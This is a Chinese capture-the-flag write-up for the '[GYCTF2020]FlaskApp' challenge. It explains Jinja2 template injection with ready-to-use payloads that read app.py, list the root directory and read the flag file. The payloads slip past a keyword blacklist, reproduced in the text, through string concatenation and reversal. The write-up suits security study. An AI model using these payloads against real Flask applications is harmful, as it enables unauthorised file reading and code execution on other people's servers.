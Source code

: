 # 原创
：  [GYCTF2020]FlaskApp

# [GYCTF2020]FlaskApp

#### [GYCTF2020]FlaskApp

## 考点

> 
Flask模板注入、waf绕过、ssti注入


## 思路

> 
题目页面是一个模拟base64加解密功能的页面，当我们在decode页面中输入错误信息致使其发生错误时会出现报错页面提示，可以查看到部分代码内容


> 
传text参数，进行解密，如果可以过waf则执行代码，读取源码试试：<br/> `{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}`


> 
从源码中我们可以发现waf过滤的内容，发现flag和os等被过滤


> 
利用字符串拼接找目录：<br/> `{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}`


> 
发现存在 this_is_the_flag.txt文件，读取flag：<br/> `{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}`


## Payload

> 
waf函数


```
def waf(str):
    black_list = [&amp;#34;flag&amp;#34;,&amp;#34;os&amp;#34;,&amp;#34;system&amp;#34;,&amp;#34;popen&amp;#34;,&amp;#34;import&amp;#34;,&amp;#34;eval&amp;#34;,&amp;#34;chr&amp;#34;,&amp;#34;request&amp;#34;,
                  &amp;#34;subprocess&amp;#34;,&amp;#34;commands&amp;#34;,&amp;#34;socket&amp;#34;,&amp;#34;hex&amp;#34;,&amp;#34;base64&amp;#34;,&amp;#34;*&amp;#34;,&amp;#34;?&amp;#34;]
    for x in black_list :
        if x in str.lower() :
            return 1

```

> 
读取源码：<br/> `{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %}`


> 
利用字符串拼接找目录：<br/> `{{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}`


> 
读取 flag：<br/> `{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}`

